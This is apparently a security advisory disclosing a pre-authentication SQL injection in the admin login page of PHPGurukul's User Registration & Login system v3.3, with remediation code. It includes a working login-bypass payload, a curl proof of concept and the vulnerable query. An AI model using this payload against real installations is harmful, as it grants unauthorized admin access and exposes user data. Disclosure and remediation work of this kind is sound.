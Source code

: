 # PHPGurukul User Registration & Login and User Management System v3.3 — admin/index.php SQL Injection → Unauthenticated Admin Login Bypass

- Affected Product: PHPGurukul “User Registration & Login and User Management System With admin panel”
- Version: 3.3 (older versions may also be affected; not verified)
- Endpoint: `/loginsystem/admin/index.php`
- Parameter: `username` (POST)
- Authentication: None (Pre‑Auth)
- Vulnerability Type: SQL Injection (CWE‑89) → Authentication Bypass
- Severity: Critical
- Proposed CVSS v3.1: `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` → 10.0

## Summary

A SQL injection in the admin login endpoint allows an unauthenticated attacker to bypass authentication and obtain an administrator session. The `username` parameter is concatenated directly into the SQL `WHERE` clause, and using a line comment truncation removes the password comparison, making the condition tautological.

This issue is distinct from other known SQL injections reported for different endpoints (e.g., `/admin/manage-users.php` with `ID` parameter, and `/admin/user-profile.php` with `uid` parameter that requires an authenticated admin session). This advisory focuses on `/admin/index.php` with `username` and is a pre‑auth login bypass.

## Reproduction Steps

1) Send a POST request to `/loginsystem/admin/index.php` with `Content-Type: application/x-www-form-urlencoded`.

2) Body (example payloads):
username=' OR 1=1 #&password=abc&login=Login

3) Expected Result: The response contains a client-side redirect to `dashboard.php`, and the browser lands on the admin dashboard with a valid admin session.

### PoC (Windows curl)

```bash
curl -i -s -k -X POST "http://localhost/loginsystem/admin/index.php" -H "Content-Type: application/x-www-form-urlencoded" --data "username=' OR 1=1 #&password=abc&login=Login"
```

If successful, the HTML will include:
<script>window.location.href='dashboard.php'</script>

## Technical Analysis

The vulnerable logic concatenates user input directly into an SQL query:

```php
// File: loginsystem/admin/index.php (login handler)
<?php
// ... existing code ...
$adminusername = $_POST['username'];
$pass = md5($_POST['password']);
$ret = mysqli_query($con, "SELECT * FROM admin WHERE username='$adminusername' and password='$pass'");
$num = mysqli_fetch_array($ret);
// ... existing code ...
```

An attacker-controlled `username` such as `' OR 1=1 #` rewrites the query:

```sql
SELECT * FROM admin WHERE username='' OR 1=1 # ' and password='d41d8cd98f00b204e9800998ecf8427e'
```

The password check is commented out, the condition becomes true, and the first admin record is returned, granting a session.

## Impact

- Full admin takeover (read/modify/delete users and data).
- Potential database compromise and chained attacks.
- High risk to confidentiality, integrity, and availability.

## Affected Version

- Confirmed on: 3.3  
- Earlier versions may also be affected but are not verified in this advisory.

## Distinction from Other Reports

- This advisory covers `/admin/index.php` with `username` (Pre‑Auth admin bypass).
- It is different from issues on:
  - `/admin/manage-users.php` using `ID` (SQLi, different endpoint/parameter).
  - `/admin/user-profile.php` using `uid` (SQLi requiring authenticated admin session).

## Recommended Remediation

1) Replace raw concatenation with prepared statements:
```php
// Secure example (mysqli prepared statement)
<?php
// ... existing code ...
$adminusername = $_POST['username'];
$pass = $_POST['password']; // store and compare using password_hash/password_verify, not md5

$stmt = $con->prepare("SELECT id, username, password FROM admin WHERE username = ?");
$stmt->bind_param("s", $adminusername);
$stmt->execute();
$res = $stmt->get_result();
$row = $res->fetch_assoc();

if ($row && password_verify($pass, $row['password'])) {
    $_SESSION['login'] = $row['username'];
    $_SESSION['adminid'] = $row['id'];
    echo "<script>window.location.href='dashboard.php'</script>";
    exit();
} else {
    echo "<script>alert('Invalid username or password');</script>";
    echo "<script>window.location.href='index.php'</script>";
    exit();
}
// ... existing code ...
```

2) Migrate password storage to `password_hash()` / `password_verify()`; never use `md5()` for credentials.

3) Apply consistent parameterization across the codebase, add CSRF protection for state-changing operations, and ensure output encoding for all user-controlled data.

## Disclosure Timeline

- 2025-09-25: Vulnerability discovered and validated locally.


## References

- Product page: https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/
- This advisory: https://github.com/romatdibrohiksnov/vulndb.com/blob/main/PHPGurukul%20User%20Registration%20%26%20Login%20and%20User%20Management%20System%20v3.3%20%20SQL%20Injection%20%E2%86%92%20Unauthenticated%20Admin%20Login%20Bypass.md

